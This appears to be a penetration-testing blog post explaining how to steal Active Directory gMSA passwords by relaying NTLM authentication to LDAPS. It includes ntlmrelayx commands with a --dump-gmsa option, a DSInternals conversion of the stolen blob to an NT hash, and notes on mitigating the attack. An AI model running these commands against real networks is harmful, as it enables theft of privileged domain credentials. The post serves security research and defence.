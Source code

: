 ```yaml
---
layout: single
classes: wide
title:  "NTLM Relaying for gMSA Passwords"
---
```


## Overview
gMSA is short for group managed service accounts in Active Directory. gMSA accounts have their passwords stored in a LDAP property called msDS-ManagedPassword which automatically get resets by the DC's every 30 days, are retrievable by authorized administrators and by the servers who they are installed on. 
msDS-ManagedPassword is an encrypted data blob called [MSDS-MANAGEDPASSWORD_BLOB](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/a9019740-3d73-46ef-a9ae-3ea8eb86ac2e) and it's only retrievable when the connection is secured, LDAPS or when the authentication type is 'Sealing & Secure' for an example.

I had little to no knowledge about what gMSA was before I watched the Bloodhound 3.0 webinar hosted by Wald0 and CptJesus which described why gMSA should be in focus during a penetration test.
![bh-gMSA](../assets/img/gMSA/bh_webinar_gmsa.png)
So we know that there is often more users that are given authorized access to read gMSA passwords than there should, and that gMSA accounts often are given admin privileges and sometimes even Domain Admin. 

So how can we abuse this? How can we gather passwords for those often privileged accounts?

Since it's usally very easy to generate incoming NTLM authentications by various techniques and that the password is stored in a LDAP property, the best solution i could think of that causes the most damage possible was to integrate retrieval of the msDS-ManagedPassword LDAP property in ntlmrelayx. As you can review in my [Pull Request](https://github.com/SecureAuthCorp/impacket/pull/770).



## Relaying to LDAP
To accomplish a connection to LDAP through NTLM relaying we have to ensure that the relayed authentication is using the HTTP protocol. We can't relay SMB authentication because of the required signing bit. However, there was a vulnerability [CVE-2019-1040](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-1040) that was making it possible to bypass the NTLM signing protection and by doing so it was possible to relay SMB -> LDAP.

The NTLM relaying process:
- 1\. The victim sends an NTLM_NEGOTIATE packet to the attacker.  
- 2\. The attacker than relays the NTLM_NEGOTIATE to the target server of their choice. 
- 3\. Target server answers back with an NTLM_CHALLENGE packet to the attacker. 
- 4\. Attacker relays the NTLM_CHALLANGE packet to the victim. 
- 5\. Victim answers with a NTLM_AUTHENTICATE back to the attacker.
- 6\. Attacker relays the NTLM_AUTHENTICATE to the target server. 
- 7\. The attacker now has an authenticated session with the target server.
![relaying-steps](../assets/img/gMSA/relaying-steps.png)

Sadly, I had no luck in implementing 'Sealing & Secure' authentication in ntlmrelayx. For now, we have to relay to LDAPS which is just LDAP over ssl which dosen't exists on a default AD installation because there is no default available certificate.


## Configuring gMSA
```
# Create a KDS Root Key on DC
Add-KdsRootKey -EffectiveTime (Get-Date).AddHours(-10)
 
# Create a new gMSA on DC
New-ADServiceAccount -Name svc_msa -DNSHostName dc.htb.local -ManagedPasswordIntervalInDays 30 -PrincipalsAllowedToRetrieveManagedPassword msa_read,dc$

#Install gMSA on the target server
Install-WindowsFeature AD-DOMAIN-SERVICES
Install-AdServiceAccount svc_msa 
```


## Exploitation
To get started we must first generate NTLM authentication requests that we can relay, we can do that in a few different ways, for example
- ADIDNS wildcard record
- Responder 
- WPAD + Mitm6 
- Exploiting a vuln service to create a HTTP auth request (Webdav redirector installed? Use the SMB protocol)

Clone my repo, install impacket, start ntlmrelayx and pick your technique to generate NTLM authentication traffic (This aint a post about exploiting services nor network poisoning so i won't go into details about it)
```
git clone https://github.com/cube0x0/impacket
cd impacket
python setup.py install
python ./examples/ntlmrelayx.py --dump-gmsa --no-dump --no-da --no-acl --no-validate-privs -debug -t ldaps://10.0.0.5
```
![ntlmrelayx](../assets/img/gMSA/ntlmrelayx.png)
Convert the blob using the DSInternals module. The password is stored in  random unicode letters so we have to covert the plaintext password into RC4 format
```
(ConvertFrom-ADManagedPasswordBlob <blob>).SecureCurrentPassword | ConvertTo-NTHash
```
![convert](../assets/img/gMSA/convert.png)

## Mitigations
NTLM relaying to LDAP and LDAPS can be mitigated by enabling LDAP signing and LDAP channel binding. 
Permissions and group membership for service accounts can be identified by BloodHound and every organisation should have the goal to follow the least privileged model.


## Links
- [https://www.secureauth.com/blog/playing-relayed-credentials](https://www.secureauth.com/blog/playing-relayed-credentials)
- [https://docs.google.com/presentation/d/1vZ1QckmtjpBsOff85IaP1mt4fEDmWYW3ziAHVHiLd5I/edit#slide=id.g7ddaaf9066_0_66](https://docs.google.com/presentation/d/1vZ1QckmtjpBsOff85IaP1mt4fEDmWYW3ziAHVHiLd5I/edit#slide=id.g7ddaaf9066_0_66) - BH Webinar
- [https://github.com/SecureAuthCorp/impacket/pull/770](https://github.com/SecureAuthCorp/impacket/pull/770) - PR
- [https://www.dsinternals.com/en/retrieving-cleartext-gmsa-passwords-from-active-directory/](https://www.dsinternals.com/en/retrieving-cleartext-gmsa-passwords-from-active-directory/) - DSInternals
